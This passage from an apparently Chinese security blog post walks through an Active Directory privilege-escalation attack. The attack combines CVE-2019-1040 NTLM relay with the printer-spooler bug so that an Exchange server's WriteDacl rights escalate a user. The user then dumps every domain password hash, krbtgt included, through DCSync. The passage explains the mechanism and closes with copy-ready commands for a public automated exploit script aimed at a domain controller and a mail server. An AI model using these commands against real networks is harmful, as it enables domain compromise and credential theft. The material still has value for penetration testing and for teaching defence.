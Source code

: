 可以看到 impacket 包里面的 ldapattack.py 默认就是一开始通过修改用户 ACL 来提升用户权限

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTiaEOS4nAFS9acu8oiaDYsxBao5mQFvpKBsTEjZpFmpic7iaHa9sJ4Vou6A/640?wx_fmt=png)

这里通过 --escalate-user 来提升指定用户权限。，一样通过参数 --remove-mic 来利用 CVE-2019-1040 漏洞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTJUWnTfesdxcdkBsolZyvjooibbaA7CxF0bJy7EwrGCiaa3En5Wwntq7Q/640?wx_fmt=png)

接着触发打印机漏洞触发 SpoolService 的 bug，来发起 NTLM 请求

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTVIoZXFZQicYTWyWuIXHg2sz7Us6L7R8pM5PicBZktbpbbp4bqnbmcUHA/640?wx_fmt=png)

由于安装 Exchange 后，Exchange 在 Active Directory 域中具有高权限，Exchange 的本地计算机账户 EX$ 会被加入用户组 Exchange Trusted Subsystem，该用户组又隶属于 Exchange Windows Permissions。Exchange Windows Permissions 组可以通过 WriteDacl 方式访问 Active Directory 中的 Domain 对象，该对象允许该组的任何成员修改域权限，从而可以修改当前域 ACL 达到提权目的。可以看到脚本一开始遍历验证中继帐户所在用户组及权限，发现当前账户可以创建用户、可以修改 one.com 域的 ACL，便通过这个来修改 user 的 ACL

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTgcblcuPkyqibwoeqk8nH4c5KICCFCSiccAkeBKxOUdXRQRKLia8EJpTCg/640?wx_fmt=png)

SpoolService 的 bug 导致 Exchange 服务器回连到 ntlmrelayx.py，然后提升到了 user 的权限。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgST9qGrdg8iaWE2ibIQfRLQotA7rBAz2njliapcyficjlFpNbpU6OhOrLPADA/640?wx_fmt=png)

接着 user 用户就可以通过 secretsdump.py 的 DCSync 功能 dump 出所有密码哈希值：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTbs1R2StEGuB8NgXichO0qsth9C6LD20IAloV9NpCDFufoHuE6YwIazA/640?wx_fmt=png)

自动化攻击利用 CVE-2019-1040

```
https://github.com/Ridter/CVE-2019-1040
```

```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip
```

```
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip
```

如果您只想转储 KRBTGT，请使用 --just-dc-user。

```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip  --just-dc-user krbtgt
```

```
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip --just-dc-user krbtgt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgST69NXossRhsHcGiaG2fQgMX7Wld8rhnvn3E0pm0oKzSDJI2gjIicku0hw/640?wx_fmt=png)  

私聊公众号发送 “**知识星球**” 可获取知识星球优惠券。
